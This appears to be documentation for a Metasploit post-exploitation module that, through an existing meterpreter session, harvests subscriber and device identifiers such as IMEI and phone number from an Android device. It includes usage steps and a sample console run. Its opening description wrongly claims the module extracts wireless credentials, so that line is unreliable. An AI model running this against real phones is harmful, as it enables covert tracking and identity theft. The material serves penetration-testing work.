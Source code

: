 ## Vulnerable Application

  This post-exploitation module will extract saved wireless AccessPoint
  credentials from the target device.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use android/gather/sub_info`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see the extracted subsriber information.

## Options

  - **SESSION** - The session to run the module on.

## Extracted data

  - subscribe information

## Example Scenario


  ```
msf5 exploit(multi/handler) > use post/android/gather/sub_info
msf5 post(android/gather/sub_info) > set session 1
session => 1
msf5 post(android/gather/sub_info) > run

[!] SESSION may not be compatible with this module.
[*] using code : 1
[*] using code : 2
[*] using code : 3
[*] using code : 4
[*] using code : 5
[*] using code : 6
[*] using code : 7
[*] using code : 8
[*] using code : 9
[*] using code : 10
[*] using code : 11
[*] using code : 12
[*] using code : 13
[*] using code : 14
[*] using code : 15
[*] using code : 16
[*] using code : 17
[*] using code : 18
[*] using code : 19
[*] using code : 20
[*] using code : 21
[*] using code : 22
[*] using code : 23
[*] using code : 24
[*] using code : 25
[*] using code : 26
[*] using code : 27
[*] using code : 28
[*] using code : 29
Subscriber info
===============

 transaction code                      value
 ----------------                      -----
 CompleteVoiceMailNumber
 CompleteVoiceMailNumberForSubscriber
 DeviceId                              86928xxxxxxxxxx
 DeviceIdForSubscriber
 DeviceSvn                             8692890262xxxxx
 GroupIdLevel1                         4042772534xxxxx
 GroupIdLevel1ForSubscriber            4042772534xxxxx
 IccSerialNumber                       ff
 IccSerialNumberForSubscriber          ff
 IccSimChallengeResponse
 ImeiForSubscriber                     8692890xxxxxxxx
 IsimChallengeResponse
 IsimDomain                            Voicemail
 IsimImpi                              Voicemail
 IsimImpu
 IsimIst
 IsimPcscf
 Line1AlphaTag
 Line1AlphaTagForSubscriber
 Line1Number                           899127217xxxxxxxxxx
 Line1NumberForSubscriber              899127217xxxxxxxxxx
 Msisdn
 MsisdnForSubscriber
 SubscriberId                          01
 SubscriberIdForSubscriber             01
 VoiceMailAlphaTag
 VoiceMailAlphaTagForSubscriber
 VoiceMailNumber
 VoiceMailNumberForSubscriber

[*] Post module execution completed
msf5 post(android/gather/sub_info) >
  ```
